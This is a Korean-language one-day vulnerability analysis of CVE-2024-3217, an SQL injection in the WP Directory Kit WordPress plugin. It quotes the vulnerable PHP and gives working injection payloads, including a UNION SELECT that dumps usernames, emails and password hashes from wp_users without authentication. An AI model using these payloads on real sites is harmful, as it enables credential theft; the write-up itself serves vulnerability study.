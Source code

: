 ```yaml
---
title: "[CVE-2024-3217] 취약점 분석 보고서"
description: "WP Directory Kit 플러그인 1.3.0 이전 버전에서 사용자 입력값의 불충분한 이스케이프 처리로 인해 발생하는 SQL Injection 취약점"
author: khh
date: 2025-02-16 10:42:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, WordPress Plugin, CVE, CVE-2024-3217]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 개요

WP Directory Kit 플러그인은 사용자가 제공한 매개변수 attribute_id 및 attribute_value 에서 불충분한 이스케이핑  처리로 1.3.0 이전 버전까지 SQL Injection 공격에 취약합니다. 이를 통해 구독자 이상 권한이 있는 공격자가 데이터베이스에서 민감한 정보를 추출할 수 있습니다.

## 분석

\wpdirectorykit\application\controllers\Wdk_frontendajax.php

```php
		if($table == 'calendar_listing_m')
			$table = 'listing_m';

		$table_name = substr($table,0, -2);
		$attr_id = sanitize_text_field($parameters['attribute_id']);
		$attr_val = sanitize_text_field($parameters['attribute_value']);
		$attr_search = sanitize_text_field($parameters['search_term']);
		$skip_id = intval($parameters['skip_id']);
		$language_id = intval($parameters['language_id']);

		if(empty($language_id))
			$language_id = NULL;

		$id_part="";
		if(is_numeric($attr_search))
			$id_part = "$attr_id=$attr_search OR ";
```

$attribute_id 또는 $attribute_value 매개변수에서 sanitize_text_field 함수가 사용된 것을 볼 수 있지만, 취약점이 여기서 발생하는 것은 아닙니다.

그 아래 부분 조건문 is_numeric($attr_search)에서 $attr_search가 숫자인 경우, “$attr_id=$attr_search OR “에 SQL query를 삽입할 수 있습니다.  그리고 작은 따옴표는 쿼리의 일부이기 때문에 이스케이프 할 필요 없이 직접 인젝션 코드를 포함할 수 있습니다.

```php
		$id_part="";
		if(is_numeric($attr_search))
			$id_part = "$attr_id=$attr_search OR ";
	
		$this->load->model($table);
		
		$where = array();
		if(!empty($attr_search))
			$where["($id_part $attr_val LIKE '%$attr_search%')"] = NULL;
```

쿼리가 만들어지고 $id_part에 저장되면 이 쿼리는 아래 코드에서 사용됩니다.

> $where["($id_part $attr_val LIKE '%$attr_search%')"] = NULL;
> 

이제 해당 부분에 도달할 수 있는 요청을 생성해 $attr_search에 숫자를 넣은 후 인젝션을 수행해 응답값을 확인해 보겠습니다.

## POC

먼저 WP Directory Kit 1.3.0 버전을 다운받은 후 플러그인을 활성화 해줍니다.

![image.png](/assets/posts/one-day/2025-02-16/image-001.png)

Listings 메뉴에서 Add Listing을 클릭해 목록을 추가해줍니다.

![image.png](/assets/posts/one-day/2025-02-16/image-002.png)

각 필드를 임의의 값으로 설정 후 저장합니다.(저장할 때 네트워크 패킷을 캡처합니다)

![image.png](/assets/posts/one-day/2025-02-16/image-003.png)

![image.png](/assets/posts/one-day/2025-02-16/image-004.png)

요청 매개변수에서 attribute_id에 아래와 같은 쿼리를 삽입하고, $search_term은 1로 설정합니다.

<aside>
💡

$attribute_id = `ID=1)or 1=1-- -`

$search_term = 1

</aside>

위와 같이 매개변수를 설정 후 요청을 보내면 아래와 같이 value에 ID값이 1인 사용자와 사용자 메일이 반환됩니다.

![image.png](/assets/posts/one-day/2025-02-16/image-005.png)

이제 필요한 최소 권한을 확인하기 위해 쿠키가 없는 상태 즉, 권한이 0인 상태에서 확인해 보겠습니다.

쿠키를 삭제한 상태에서 아까 공격에 사용했던 매개변수로 설정 후 요청을 보냅니다.

![image.png](/assets/posts/one-day/2025-02-16/image-006.png)

그럼 아래와 같이 여전히 데이터 베이스에서 값을 가져옵니다. 이로써 최소 권한인 구독자 권한부터 취약점이 터진다는 것을 알 수 있습니다.

![image.png](/assets/posts/one-day/2025-02-16/image-007.png)

이제 wp_users 테이블에서 모든 값을 추출하는 페이로드를 생성해 보겠습니다.

> ID=1) UNION ALL SELECT NULL,NULL,NULL,CONCAT(display_name,0x3a,display_name,0x3a,user_email,0x3a,user_pass),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -
> 

<aside>
💡

$search_term을 숫자로 설정해야 합니다.

</aside>

아래와 같이 쿠키를 삭제한 최소권한에서 $attribute_id를 위 페이로드로 설정하고, $search_term을 숫자로 설정한 후 요청을 보냅니다.

![image.png](/assets/posts/one-day/2025-02-16/image-008.png)

그럼  wp_users 데이터베이스의 모든 값이 추출되는 것을 볼 수 있습니다.

![image.png](/assets/posts/one-day/2025-02-16/image-009.png)

만약 사용자가 password를 간단하게 설정했다면 hashcrack 툴을 사용하여 패스워드를 알아낼 수 있습니다.

![image.png](/assets/posts/one-day/2025-02-16/image-010.png)

![image.png](/assets/posts/one-day/2025-02-16/image-011.png)

## 패치

![image.png](/assets/posts/one-day/2025-02-16/image-012.png)